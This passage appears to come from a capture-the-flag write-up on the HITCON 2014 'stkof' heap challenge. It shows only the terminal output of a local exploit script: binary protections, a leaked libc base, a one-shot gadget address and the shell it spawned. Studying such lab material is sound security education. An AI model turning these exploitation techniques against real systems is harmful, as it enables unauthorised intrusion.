 When we run it:

```
$ python exploit.py
[+] Starting local process './stkof': pid 28678
[*] '/home/guyinatuxedo/Desktop/hitcon14/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/guyinatuxedo/Desktop/hitcon14/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1
OK

2
OK

3
OK

4
OK

5
OK

6
OK

OK

OK

OK

OK

0x7f6a67af4130
...
OK

libc base: 0x7f6a67a70000
oneshot gadget: 0x7f6a67b602a4
OK

[*] Switching to interactive mode
$ w
 23:32:52 up 14:32,  1 user,  load average: 2.04, 1.68, 1.57
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               26Jun19 12days  1:43m  0.34s /sbin/upstart --user
$ ls
exploit.py  libc-2.23.so  stkof
```

Just like that we popped a shell!